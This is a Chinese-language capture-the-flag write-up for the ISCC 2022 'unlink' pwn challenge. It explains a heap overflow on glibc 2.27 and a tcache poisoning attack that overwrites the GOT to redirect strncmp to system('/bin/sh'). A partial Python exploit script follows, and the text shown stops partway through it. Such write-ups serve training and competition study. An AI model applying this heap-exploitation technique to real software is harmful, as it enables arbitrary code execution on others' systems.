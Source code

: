 

### unlink

#### 保护策略：

![image-20220531215015771](ISCC_2022_pwn.assets/image-20220531215015771.png)

#### 漏洞分析

<img src="ISCC_2022_pwn.assets/image-20220531215332239.png" alt="image-20220531215332239" style="width: 50%;" />

存在堆溢出，虽然题目是叫做unlink，但是我试了一下，似乎unlink做不出来（可能是我太菜了）。即使patchup成2.23的，等unlink之后，ptr=&ptr-0x18，再往fake_chunk写入数据，数据会覆盖掉stdin指针。导致程序无法再输入了。因此用unlink的方法就卡住了。

不过这道题是2.27的，因此可以利用溢出打tcache attack。

#### 大致思路

先申请两个chunk，低地址的chunk作为溢出堆块。然后释放掉高地址的chunk，利用溢出修改tcachebin中chunk的fd指针（**这个fd指针修改成哪，接下来申请的chunk的地址就在哪。不过由于从tcachebin中申请chunk时，会将其的bk指针的位置赋值成0，如果fd修改成了一个不可写的地址，程序在这里就会崩溃掉）**

我们fd指针修改为cmd的地址

![image-20220531231430009](ISCC_2022_pwn.assets/image-20220531231430009.png)

它位于bss段，是可写的。因此我们可以将它申请到bss段上，再往这个chunk里写入数据时，就修改了bss段上存储的chunk地址，将chunk地址改为free函数的got表，再对这个chunk进行修改，即可修改free的got表。

同时要考虑到修改完got表后，下一次输入的数据依旧再往got表里输入，这就意味着我们无法先修改free的真实地址为system，再传入/bin/sh**（因为下回传/bin/sh的时候，free的真实地址又被改成了/bin/sh）<u>因此需要传参和修改got表同时进行</u>**。这道题因为got表中的free和strncmp是挨着的，所以我们可以劫持free的got表，往里面写入/bin/sh\x00和system的plt地址，此时字符串的开头则为/bin/sh\x00（也就是之后strncmp的第一个参数）。同时也将system的plt地址写入到了strncmp中，等到执行strncmp的时候，成功获取shell。

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

#### EXP

```python
from tools import *
p,e,libc=load('a')
debug(p,0x4009BD)
def add(index,lenth,content):
    p.sendline('add')
    #p.sendline(fake_chunk)
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Size: ')
    p.sendline(str(lenth))
    p.recvuntil('Data: ')
    p.sendline(content)

def remove(index):
    p.sendline('remove')
    p.recvuntil('Index: ')
    p.sendline(str(index))
bss_addr=0x6010B0
back_addr=0x400896
sys_addr=e.plt['system']
free_got_addr=e.got['free']
add(0,0x40,b'aaaa')#overflow_chunk
add(1,0x30,b'bbbb')
remove(0)
remove(1)
payload=72*b'a'+p64(0x41)+p64(bss_addr)
add(0,0x40,payload)
add(2,0x30,b'bb')
```